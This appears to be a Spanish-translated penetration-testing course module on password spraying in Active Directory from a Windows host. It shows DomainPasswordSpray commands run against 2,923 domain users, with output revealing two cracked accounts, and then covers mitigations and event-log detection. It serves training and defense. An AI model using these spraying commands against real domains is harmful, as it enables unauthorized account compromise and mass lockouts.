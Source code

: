 # Pulverización de contraseña interna: desde Windows

---

Desde un punto de apoyo en un host de Windows unido por dominio, el[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)La herramienta es altamente efectiva. Si estamos autenticados al dominio, la herramienta generará automáticamente una lista de usuarios desde Active Directory, consultará la política de contraseña de dominio y excluirá las cuentas de usuario dentro de un intento de bloqueo. Al igual que cómo ejecutamos el ataque de pulverización de nuestro host de Linux, también podemos proporcionar una lista de usuarios a la herramienta si estamos en un host de Windows pero no autenticados al dominio. Podemos encontrarnos con una situación en la que el cliente quiere que realicemos pruebas desde un dispositivo Windows administrado en su red en la que podamos cargar herramientas. Podemos estar físicamente en el sitio en sus oficinas y deseamos probar desde una VM de Windows, o podemos obtener una posición inicial a través de algún otro ataque, autenticarnos en un host en el dominio y realizar la pulverización de contraseñas en un intento de obtener credenciales para una cuenta que tenga más derechos en el dominio.

Hay varias opciones disponibles para nosotros con la herramienta. Dado que el anfitrión se une al dominio, omitiremos el`-UserList`Marcar y dejar que la herramienta genere una lista para nosotros. Suministraremos el`Password`bandera y una sola contraseña y luego use el`-OutFile`marcar para escribir nuestra salida en un archivo para su uso posterior.

#### Uso de DomainPasswordSpray.ps1

  Pulverización de contraseña interna: desde Windows

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

También podríamos utilizar Kerbrute para realizar los mismos pasos de enumeración y pulverización del usuario que se muestran en la sección anterior. La herramienta está presente en el`C:\Tools`Directorio Si desea trabajar a través de los mismos ejemplos desde el host de Windows proporcionado.

---

## Mitigaciones

Se pueden tomar varios pasos para mitigar el riesgo de ataques de pulverización de contraseña. Si bien ninguna solución única evitará por completo el ataque, un enfoque de defensa en profundidad hará que los ataques de pulverización de contraseña sean extremadamente difíciles.

|Técnica|Descripción|
|---|---|
|`Multi-factor Authentication`|La autenticación multifactor puede reducir en gran medida el riesgo de ataques de pulverización de contraseña. Existen muchos tipos de autenticación multifactor, como notificaciones push a un dispositivo móvil, una contraseña rotativa única (OTP) como el autenticador de Google, la tecla RSA o las confirmaciones de mensajes de texto. Si bien esto puede evitar que un atacante obtenga acceso a una cuenta, ciertas implementaciones de factores multifactor aún revelan si la combinación de nombre de usuario/contraseña es válida. Es posible reutilizar esta credencial contra otros servicios o aplicaciones expuestas. Es importante implementar soluciones multifactor con todos los portales externos.|
|`Restricting Access`|A menudo es posible iniciar sesión en aplicaciones con cualquier cuenta de usuario de dominio, incluso si el usuario no necesita acceder a ella como parte de su papel. En línea con el principio de menor privilegio, el acceso a la aplicación debe estar restringido a aquellos que lo requieren.|
|`Reducing Impact of Successful Exploitation`|Una victoria rápida es garantizar que los usuarios privilegiados tengan una cuenta separada para cualquier actividad administrativa. Los niveles de permiso específicos de la aplicación también deben implementarse si es posible. También se recomienda la segmentación de la red porque si un atacante está aislado a una subred comprometida, esto puede ralentizar o detener por completo el movimiento lateral y un compromiso aún más.|
|`Password Hygiene`|Educar a los usuarios sobre la selección de contraseñas difíciles de adivinar, como las frases de pases, puede reducir significativamente la eficacia de un ataque de pulverización de contraseña. Además, el uso de un filtro de contraseña para restringir las palabras del diccionario comunes, los nombres de meses y estaciones, y las variaciones en el nombre de la compañía hará que sea bastante difícil para un atacante elegir una contraseña válida para los intentos de pulverización.|

---

## Otras consideraciones

Es vital asegurarse de que la política de bloqueo de contraseña de su dominio no aumente el riesgo de denegación de ataques de servicio. Si es muy restrictivo y requiere una intervención administrativa para desbloquear cuentas manualmente, un spray de contraseña descuidado puede bloquear muchas cuentas dentro de un período corto.

---

## Detección

Algunos indicadores de ataques de pulverización de contraseña externos incluyen muchos bloqueos de cuentas en un período corto, registros de servidor o aplicación que muestran muchos intentos de inicio de sesión con usuarios válidos o inexistentes, o muchas solicitudes en un período corto a una aplicación o URL específica.

En el registro de seguridad del controlador de dominio, muchas instancias de ID de eventos[4625: una cuenta no pudo iniciar sesión](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)En un período corto puede indicar un ataque de pulverización de contraseña. Las organizaciones deben tener reglas para correlacionar muchas fallas de inicio de sesión dentro de un intervalo de tiempo establecido para activar una alerta. Un atacante más inteligente puede evitar la pulverización de contraseñas de SMB y, en cambio, apuntar a LDAP. Las organizaciones también deben monitorear la identificación del evento[4771: Falló la preautenticación de Kerberos](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), que puede indicar un intento de pulverización de contraseña LDAP. Para hacerlo, necesitarán habilitar el registro de Kerberos. Este[correo](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing)Detalles investigaciones sobre detectar la pulverización de contraseñas utilizando el registro de eventos de seguridad de Windows.

Con estas mitigaciones finamente ajustadas y con el registro habilitado, una organización estará bien posicionada para detectar y defender contra ataques de pulverización de contraseñas internos y externas.

---

## Pulverización de contraseña externa

Mientras está fuera del alcance de este módulo, la pulverización de contraseñas también es una forma común que los atacantes usan para intentar establecerse en Internet. Hemos tenido mucho éxito con este método durante las pruebas de penetración para obtener acceso a datos confidenciales a través de bandejas de entrada de correo electrónico o aplicaciones web, como sitios de intranet externamente. Algunos objetivos comunes incluyen:

- Microsoft 0365
- Intercambio web de Outlook
- Intercambiar acceso web
- Skype para negocios
- Servidor lync
- Portales de Servicios de Desktop Remote de Microsoft (RDS)
- Portales de Citrix con autenticación AD
- Implementaciones de VDI utilizando autenticación AD como VMware Horizon
- Portales VPN (Citrix, SonicWall, OpenVPN, Fortinet, etc. que usan autenticación AD)
- Aplicaciones web personalizadas que utilizan la autenticación AD

---

## Moviéndose más profundo

Ahora que tenemos varios conjuntos de credenciales válidas, podemos comenzar a profundizar en el dominio realizando una enumeración acreditada con varias herramientas. Caminaremos a través de varias herramientas que se complementan entre sí para darnos la imagen más completa y precisa de un entorno de dominio. Con esta información, trataremos de movernos lateral y verticalmente en el dominio para finalmente alcanzar el objetivo final de nuestra evaluación.
